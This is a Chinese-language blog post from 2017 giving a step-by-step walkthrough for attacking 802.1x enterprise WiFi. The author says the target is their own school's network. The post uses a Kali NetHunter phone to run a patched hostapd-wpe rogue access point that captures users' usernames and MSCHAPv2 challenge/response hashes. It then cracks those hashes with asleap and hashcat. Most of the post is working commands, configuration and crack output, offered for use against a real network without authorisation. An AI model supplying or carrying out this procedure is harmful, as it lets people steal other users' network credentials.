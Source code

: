 ```yaml
---
layout: single
title: 使用Kali Nethunter破解802.1x安全性WiFi
date: 2017-02-10 12:25:57
categories: "Hack"
tags:
- 黑客手机
- 无线安全
- Kali
header:
  teaser: /assets/images/nethunter-8021x/1x_test.jpg
  
---
```


# 背景
笔者学校的无线网络采用1x认证方式，所以你懂的。

之前参考GitHub上的一个项目<https://github.com/OpenSecurityResearch/hostapd-wpe>在Kali2.0上部署成功，但是在手机端的情况比较不同，猜测是因为架构有一定区别所导致的，而且该网页上的Hostapd版本比较低，遂继续查找，找到了aircrack-ng的GitHub的某一个页面上展示了Hostapd-wpe的用法<https://github.com/aircrack-ng/aircrack-ng/tree/master/patches/wpe/hostapd-wpe>

页面上写的比较详细，但是实践中笔者还是踩了不少坑，下面开始：

**注意，本文在Kali 2.0及以上的版本中应该也适用！但是本人没有测试，还请测试通过的朋友留个言**

# 依赖
- pkg-config
- libssl 1.0
- libnl3 (and genl)
- sqlite3

安装依赖：
```shell
apt-get install libssl1.0-dev libnl-genl-3-dev libnl-3-dev pkg-config libsqlite3-dev
```

由于手机上敲指令过于蛋疼，笔者自己ssh到了手机上，在Kali的应用中可以直接打开SSH服务。

用ftp或者wget之类的将patch文件下载到手机上，这里笔者的路径是 ~/1x/ ,执行：

注:补丁文件<https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/patches/wpe/hostapd-wpe/hostapd-wpe.patch>

## 下载、编译、安装
```shell
# 下载
wget http://hostap.epitest.fi/releases/hostapd-2.6.tar.gz
tar -zxf hostapd-2.6.tar.gz
cd hostapd-2.6
# 打补丁
patch -p1 < ../hostapd-wpe.patch
cd hostapd
# 编译安装
make
make install
make wpe
```

## 制作证书
```shell
cd /etc/hostapd-wpe/certs
./bootstrap
make install
```
这里会出现关于gendh命令未找到的错误，原因是openssl将gendh已经换成了dhparam,在该目录下的Makefile中将gendh替换为dhparam即可。

## 运行
请注意在Nethunter中已经预先安装了hostapd，但是那个版本的hostapd是不支持1x的。所以请切换到我们部署的hostapd目录下，运行：
```shell
./hostapd ./hostapd-wpe.conf
```

这里的配置文件需要修改，需要修改的地方有：
```shell
interface=wlan1
ssid=YOUR_SSID
driver=nl80211
hw_mode=g
#fragm_threshold=-1
#rts_threshold=-1
# 以上两行需要添加注释
```

之后再运行，即可成功。日志的数据为该目录下的hostapd-wpe.log文件，其记载了用户的用户名和MSCHAPv2认证hash值。

# 破解
由于采用MSCHAPv2认证，所以密码并不会明文显示。主要有两种方法，其一是直接用系统中的工具asleep进行破解，举个栗子：

## asleep
采集到的日志样例：
```shell
username: jdslfkjs
challenge: bc:87:6c:48:37:d3:92:6e
response: 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0
```

执行：
```shell
$ asleap -C bc:87:6c:48:37:d3:92:6e -R 2d:00:61:59:56:06:02:dd:35:4a:0f:99:c8:6b:e1:fb:a3:04:ca:82:40:92:7c:f0 -W wordlist
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
hash bytes:        b1ca
NT hash:           e614b958df9df49ec094b8730f0bb1ca
password:          bradtest
```

其中wordlist需要自己准备

## hashcat
另一种方法是利用hashcat进行破解，其好处是可以根据掩码实时生产字典爆破而且可以使用GPU+CPU资源进行破解，速度比较科学。

关于hashcat的获取，请去官方网站<https://hashcat.net/>下载。

### hashcat brief introduction
```shell
hashcat [选项] ... hash|hashfile|hccapfile [字典|掩码|路径]
-m, --hash-type        /哈希值类型，我们使用5500 NetNTLMv1
-a, --attack-mode      /攻击模式，这里使用3 暴力破解
-d, --opencl-devices   /使用设备，1：CPU 2：GPU 3：FPGA，DSP
-o, --outfile          /输出文件路径-i, --incerment        /掩码破击时使用，设置掩码上下限
```

笔者这里使用的参数如下：
```shell
./hashcat64.exe -d 1 -a 3 -m 5500 -o "output path" -i --increment-min=1 --increment-max=8 -1 ?l "input filepath" ?1?1?1?1?1?1?1?1
```

其中，-1 ?l 代表定义1号掩码的格式为所有小写字母，参考掩码：
### hashcat maskcode
```shell
? | Charset
===+=========
l | abcdefghijklmnopqrstuvwxyz
u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
d | 0123456789
s |  !"#$%&'()*+,-./:;=?@[\]^_`{|}~
a | ?l?u?d?s
b | 0x00 - 0xff
```

将之前得到的输出结果按照
username::::response:challenge
的格式存储在文本文档中，注意去掉hash值中的冒号。运行hashcat

# 后记

为了方便起见，可以将其作为用户定义脚本存储在nethunter的custom command中：
![OP3 customcommand](/assets/images/nethunter-8021x/custom_command.jpg)

运行截图：
![OP3 test1x](/assets/images/nethunter-8021x/1x_test.jpg)
